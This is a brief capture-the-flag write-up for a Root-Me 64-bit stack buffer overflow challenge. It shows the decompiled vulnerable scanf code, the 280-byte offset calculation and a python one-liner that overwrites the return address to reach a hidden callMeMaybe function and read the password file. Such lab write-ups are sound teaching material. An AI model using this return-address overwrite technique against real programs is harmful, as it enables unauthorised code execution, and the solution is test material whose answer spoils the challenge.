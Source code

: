 ### S0lv3d by H4yicl3

First I download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```

I use IDA to analysis the code .
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [sp+10h] [bp-110h]@1  //try to find position of buf
  int v5; // [sp+11Ch] [bp-4h]@1

  __isoc99_scanf(0x4007EELL, &buf, envp);
  v5 = strlen(&buf);
  printf("Hello %s\n", &buf, argv);
  return 0;
}
```
based on here
```c
-0000000000000110 buf             db ? //0x110


+0000000000000008  r              db 8 dup(?) //+0x08
```
-->we need overflow 0x110+0x08=280
and we have the function callMeMaybe

```
.text:00000000004006CD callMeMaybe     proc near  
.text:00000000004006CD                 push    rbp
.text:00000000004006CE                 mov     rbp, rsp
```
address of callMeMaybe is 0x4006CD

but we need overflow 8byte because this program is 64 bit

the script to exploit is
```
(python -c 'print "A"*280+"\xcd\x06\x40\x00\x00\x00\x00\x00"';cat)|./ch35
```

now we can cat the .passwd ! GLHF ! 
